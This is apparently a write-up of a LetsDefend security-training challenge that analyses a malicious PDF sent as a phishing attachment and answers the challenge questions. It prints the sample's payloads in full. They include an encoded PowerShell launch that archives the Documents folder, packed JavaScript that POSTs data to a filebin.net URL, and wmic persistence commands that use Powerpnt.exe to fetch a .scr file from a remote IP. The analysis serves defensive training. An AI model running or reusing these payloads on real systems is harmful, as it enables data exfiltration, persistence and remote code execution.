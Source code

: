 # PDF Analysis - LetsDefend Challenge

### Summary

An employee has received a suspicious email:

**From:** SystemsUpdate@letsdefend.io **To:** Paul@letsdefend.io **Subject:** Critical - Annual Systems UPDATE NOW **Body:** Please do the dutiful before the deadline today. **Attachment:** [Update.pdf](https://drive.google.com/file/d/1_P5rsU1LCHYW--36TbhYqA841VeAZ6VE/view?usp=sharing) **Password:** letsdefend

The employee has reported this incident to you as the analyst which has also forwarded the attachment to your SIEM. They have mentioned that they did not download or open the attachment as they found it very suspicious. They wish for you to analyze it further to verify its legitimacy.

**File link:** [Download](https://drive.google.com/file/d/1_P5rsU1LCHYW--36TbhYqA841VeAZ6VE/view?usp=sharing) **Password:** letsdefend

NOTE: Do not open in your local environment. It is a malicious file.

This challenge prepared by [@DXploiter](https://twitter.com/DXploiter)

### Questions

1. What local directory name would have been targeted by the malware?
2. What would have been the name of the file created by the payload?
3. What file type would this have been if it were created?
4. Which external web domain would the malware have attempted to interact with?
5. Which HTTP method would it have used to interact with this service?
6. What is the name of the obfuscation used for the Javascript payload?
7. Which tool would have been used for creating the persistence mechanism?
8. How often would the persistence be executed once Windows starts? (format: X.X hours)?
9. Which LOLBin would have been used in the persistence method?
10. What is the filename that would have been downloaded and executed using the LOLbin?
11. Where would this have been downloaded from? (format: IP address)
12. Which country is this IP Address located in?

### Findings

1. Download the infected file in our isolated environment.
2. Upload to [VirusTotal.com](http://VirusTotal.com) and check the malware validity. Trojan is flagged on the virus scan.

[VirusTotal](https://www.virustotal.com/gui/file/ac3d6089d459195800931784a175b31fd65e20a937488acd95477db7dd253280/detection)

1. Let's check on what is the content inside this malicious PDF file by using `strings` command
    
    `strings Update.pdf`
    
2. After reviewing to the pdf file, I saw there is a PowerShell command which is encoded in Base64.
    
    ```powershell
    endobj
    19 0 obj
        /OpenAction
          <<
            /S /Launch
            /Win
              <<
                /F '(\\powershell -EncodedCommand cDF6c2MwRCV3cW53bm5qZWt3aW56JXN0bmVtdWNvRCU6QyBodGFQbm9pdGFuaXRzZUQtIGV0YWRwVS0gKiVzdG5lbXVjb0QlOkMgaHRhUC0gZXZpaGNyQS1zc2VycG1vQw==)'
           >>
     endobj
    ```
    
3. Let’s decode it using CyberChef with “From Base64”. The outcome looks weird, and it looks like reversed and what I found on the next code, it open with the cmd.exe and decode with ‘best64code’ and do the ‘Reverse’ function on the ‘$base64’ variable, which means the outcome after decoding should require to reverse. 
    
    ```powershell
    26 0 obj
            /OpenAction <<
                            /S /Launch
                            /Win
                        <<
    			/F (\103:\\Windows\\system32\\cmd.exe /C 'Powershell')
                            /P ($best64code = ("{5}{0}{2}{30}{12}{1}{14}{15}{6}{21}{31}{20}{10}{28}{7}{24}{11}{13}{22}{25}{17}{3}{19}{8}{4}{23}{26}{9}{16}{18}{27}{29}"-f 'mTuIXZ0xWaGRnblZXRf9lI9','atdnCNoQDiI3Yz','IXZ0xWaGBSRUFURSNEIn5Wak5WaCJXZtV3cu92QvRlclRHbpZ0XfBCSUFEUgIibvlGdwlmcjNnY1NHX092byx','EIlNmbhR3culEdldmchRFIFJVRIdFIwAD','F','=IiIcpGb2dkYaN3VIJlIc1TZtFmTuIXZtV3cu92Q05WZ2VUZulGTk5WYt12bDJSPyVWb1NnbvNEIsIiIcN2ZJV1alFlZHVmIc1TZtF','h2YhNUZslmRlNWamZ2TcBjL2EDXlNWamZ2TcRnZvN3byNWaNxFbhN2bMxVY0FGRwBXQcVSRMlkRPJFUSV0UVVCXzJXZzVFX6MkI9UGdhx','vJHXlNWamZ2TgQnZvN3byNWa','Zv1UZj5WY0NnbJ91Xg00TSZEIqACVDVET','dn5WYMl','Wb','LioGb2dkYaN3VIJlI9UWbh5EIFRVQFJ1QgIXZtV3cu92Q05WZ2','gMW','VUZulGTk5WYt12bDBCSUFEUgIibvlGdwlmcjNnY1NHX092byxFXioTRDFEUTVUTB50','5iM4Qjc','lBXYwxGbhdHXl','nclVXUsIiM21WajxFdv9mci0TZjFGcTVWbh5EduVmdFBCLiM2ZJV1alFlZHV','UfJzMul2VnASQTl','mI9UWbh5EIFRVQF','M5AiTJhEVJdFI05WZ2VkbvlGdhNWamlG','Rmbh1','GctVGVl5W','LgMWatdnCNoQDicSblR3c5N1XT9kZyVGUfFGdhREZlRHdh1','NlI9knclVXUgwiIMF1Vi0T','Nx1clxWaGBSbhJ3ZvJHUcpzQi0Da0FGUlxmYhRXdjVGeFBC','mcvZkZyVG','ZnFW','J1QgIXZ0xWaGRnblZXRf9F','vNELiAyJyN2cuIDO0IXZwFGcsxWY39CN14CN4EjL3gTMuAjNv8iOwRHdodCIlhXZuQnbwJXZ39GUcZTMlNWamZ2TcR3b','IIRVQQBiIu9Wa0BXayN2ciV3ccR3bvJHXcJiOFNUQQNVRNFkTvAyYp12d','FXioTRDFEUTVUTB50L','aM')
    $base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null
    $LoadCode = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("$base64"))
    Invoke-Expression $LoadCode"")
            /Pages 2 0 R
            /Type /Catalog
    endobj
    ```
    
4. I try again with the “Reverse” option and *gotcha*! It will help you to solve question no 1- 3.
    
    ```powershell
    ##Before Reverse
    p1zsc0D%wqnwnnjekwinz%stnemucoD%:C htaPnoitanitseD- etadpU- *%stnemucoD%:C htaP- evihcrA-sserpmoC
    
    ##After Reverse
    Compress-Archive -Path C:%Documents%* -Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p
    ```
    
5. Next, let's look into the code further. Where there is another code looks suspicious that using stream functions. Let’s try to de-obfuscate the JavaScript code using beautifier.io.
    
    ```powershell
    33 0 obj
    << /Length 395
    xcdfg >>
    stream
    eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 5="v://a.b/c/d";1 0=e f();0.g("h",5);0.j("9-k: 7/m-n","7/p");0.q=r(){s(0.t===4){6.3(0.u);6.3(0.8)}};1 2=\'{"l":"","i":""}\';0.o(2);',32,32,'xhr|var|data|log||url|console|application|responseText|Content|filebin|net|0flqlz0hiz6o4l32|D0csz1p|new|XMLHttpRequest|open|POST|password|setRequestHeader|Type|login|octet|stream|send|json|onreadystatechange|function|if|readyState|status|https'.split('|'),0,{}))
    endstream
    ```
    
    [Online JavaScript beautifier](https://beautifier.io/)
    
6. The outcome of the [beautifier.io](http://beautifier.io). It will help you to solve question no 4 - 6.
    
    ```powershell
    var url = "https://filebin.net/0flqlz0hiz6o4l32/D0csz1p";
    var xhr = new XMLHttpRequest();
    xhr.open("POST", url);
    xhr.setRequestHeader("Content-Type: application/octet-stream", "application/json");
    xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
            console.log(xhr.status);
            console.log(xhr.responseText)
        }
    };
    var data = '{"login":"","password":""}';
    xhr.send(data);
    ```
    
7. For question no 6, the obfuscation used for the JavaScript payload is stated in front of the code.
    
    [](https://medium.com/ax1al/javascript-obfuscation-what-why-and-how-5a269e6b6d50)
    
8. For question no 7, ************************************************************************which tool would have been used for creating the persistence mechanism?************************************************************************  On the **steps 5**, we saw there is a function call ‘*$best64code*’ where there is a bunch of the encoded code. I use the [tio.run](http://tio.run) to test on the output of the PowerShell code.
    
    ```powershell
    $best64code = ("{5}{0}{2}{30}{12}{1}{14}{15}{6}{21}{31}{20}{10}{28}{7}{24}{11}{13}{22}{25}{17}{3}{19}{8}{4}{23}{26}{9}{16}{18}{27}{29}"-f 'mTuIXZ0xWaGRnblZXRf9lI9','atdnCNoQDiI3Yz','IXZ0xWaGBSRUFURSNEIn5Wak5WaCJXZtV3cu92QvRlclRHbpZ0XfBCSUFEUgIibvlGdwlmcjNnY1NHX092byx','EIlNmbhR3culEdldmchRFIFJVRIdFIwAD','F','=IiIcpGb2dkYaN3VIJlIc1TZtFmTuIXZtV3cu92Q05WZ2VUZulGTk5WYt12bDJSPyVWb1NnbvNEIsIiIcN2ZJV1alFlZHVmIc1TZtF','h2YhNUZslmRlNWamZ2TcBjL2EDXlNWamZ2TcRnZvN3byNWaNxFbhN2bMxVY0FGRwBXQcVSRMlkRPJFUSV0UVVCXzJXZzVFX6MkI9UGdhx','vJHXlNWamZ2TgQnZvN3byNWa','Zv1UZj5WY0NnbJ91Xg00TSZEIqACVDVET','dn5WYMl','Wb','LioGb2dkYaN3VIJlI9UWbh5EIFRVQFJ1QgIXZtV3cu92Q05WZ2','gMW','VUZulGTk5WYt12bDBCSUFEUgIibvlGdwlmcjNnY1NHX092byxFXioTRDFEUTVUTB50','5iM4Qjc','lBXYwxGbhdHXl','nclVXUsIiM21WajxFdv9mci0TZjFGcTVWbh5EduVmdFBCLiM2ZJV1alFlZHV','UfJzMul2VnASQTl','mI9UWbh5EIFRVQF','M5AiTJhEVJdFI05WZ2VkbvlGdhNWamlG','Rmbh1','GctVGVl5W','LgMWatdnCNoQDicSblR3c5N1XT9kZyVGUfFGdhREZlRHdh1','NlI9knclVXUgwiIMF1Vi0T','Nx1clxWaGBSbhJ3ZvJHUcpzQi0Da0FGUlxmYhRXdjVGeFBC','mcvZkZyVG','ZnFW','J1QgIXZ0xWaGRnblZXRf9F','vNELiAyJyN2cuIDO0IXZwFGcsxWY39CN14CN4EjL3gTMuAjNv8iOwRHdodCIlhXZuQnbwJXZ39GUcZTMlNWamZ2TcR3b','IIRVQQBiIu9Wa0BXayN2ciV3ccR3bvJHXcJiOFNUQQNVRNFkTvAyYp12d','FXioTRDFEUTVUTB50L','aM')
    $base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null
    $LoadCode = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("$base64"))
    Write-Output $LoadCode
    ```
    
9. Output of the code. It will help you to answer question no 7 - 11.
`Query="SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"`
The suspicious script should get events from a remote location within 9000 seconds.
`CommandLineEventConsumer CREATE Name="RHWsZbGvlj", ExecutablePath="C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe 'http://60.187.184.54/wallpaper482.scr' ",CommandLineTemplate="C:\Users\%USERPROFILE%\AppData\Local\Microsoft\Office\16.0\OfficeFileCache\wallpaper482.scr"`
It is creating a process to run a specified executable program from a command line under the LOLBin “***Powerpnt.exe***”, which downloads the file “***wallpaper482.scr***” hosted in the suspicious IP domain ***60.187.184.54***
    
    ```powershell
    wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="eGfQekUIgc", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
    wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="RHWsZbGvlj", ExecutablePath="C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe 'http://60.187.184.54/wallpaper482.scr' ",CommandLineTemplate="C:\Users\%USERPROFILE%\AppData\Local\Microsoft\Office\16.0\OfficeFileCache\wallpaper482.scr"
    wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"eGfQekUIgc\"", Consumer="CommandLineEventConsumer.Name=\"RHWsZbGvlj\""
    ```
    
    NOTE: Tricky part to the question no 8, where the PowerShell code is 9000 second but it should be converted to hours. 
    
10. IP address location can use [DNSChecker](http://DNSChecker.com) to find it.
    
    [IP Address Lookup - Instantly Locate Your Public IP](https://dnschecker.org/ip-location.php?ip=60.187.184.54)
